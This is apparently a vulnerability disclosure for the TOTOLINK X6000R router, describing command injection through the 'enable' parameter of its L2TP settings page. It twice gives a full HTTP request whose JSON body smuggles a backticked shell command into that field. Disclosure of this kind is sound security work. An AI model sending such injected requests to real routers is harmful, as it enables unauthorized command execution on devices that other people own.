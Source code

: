 # Summary
There is a command execution vulnerability in TOTOLINK X6000R V9.4.0cu.852_B20230719(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/l2tp.html", and vulnerable paramter is **"enable"**.

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/f988b107-ec6e-4f29-8749-0e34f26d919b)

Capture the packet and do a blind test directly, we edit the value of `enable` to a command to execute:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 230
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"`ls >/web/poc_l2tp_enable.txt`","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"1450","ipsecL2tpEnable":"0","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```
![image](https://github.com/user-attachments/assets/57cd0070-5d49-4dd4-b3a3-ee141e7996b0)

![image](https://github.com/user-attachments/assets/9b1342b7-4a6c-4edd-9502-865e671e292c)



# PoC
Capture the packet and do a blind test directly, we edit the value of `enable` to a command to execute:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 230
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"`ls >/web/poc_l2tp_enable.txt`","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"1450","ipsecL2tpEnable":"0","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```
![image](https://github.com/user-attachments/assets/57cd0070-5d49-4dd4-b3a3-ee141e7996b0)

![image](https://github.com/user-attachments/assets/9b1342b7-4a6c-4edd-9502-865e671e292c)

